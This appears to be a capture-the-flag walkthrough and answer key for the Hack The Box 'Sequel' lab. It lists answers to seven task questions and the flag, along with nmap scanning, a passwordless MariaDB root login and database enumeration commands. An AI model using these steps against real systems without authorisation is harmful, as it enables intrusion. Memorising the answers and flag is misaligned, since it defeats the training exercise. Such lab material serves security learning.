 # Sequel  

# Task 1  
Q: During our scan, which port do we find serving MySQL?  
A: 3306  

# Task 2  
Q: What community-developed MySQL version is the target running?  
A: MariaDB  

# Task 3  
Q: When using the MySQL command line client, what switch do we need to use in order to specify a login username?  
A: -u  

# Task 4  
Q: Which username allows us to log into this MariaDB instance without providing a password?  
A: root  

# Task 5  
Q: In SQL, what symbol can we use to specify within the query that we want to display everything inside a table?  
A: *  

# Task 6  
Q: In SQL, what symbol do we need to end each query with?  
A: ;  

# Task 7  
Q: There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?  
A: htb  

# SUBMIT FLAG  
``` text
1. scan open ports
    (1) [host] # nmap -sC -sV ${ip} -v
2. try to connect to service without password.
    (1) [host] # mysql -h ${ip} -u root
3. find flag in sql service.
    (1) MariaDB [(none)]> SHOW databases;
    (2) MariaDB [(none)]> USE htb;
    (3) MariaDB [htb]> SHOW tables;
    (4) MariaDB [htb]> select * from config;
```
A: 7b4bec00d1a39e3dd4e021ec3d915da8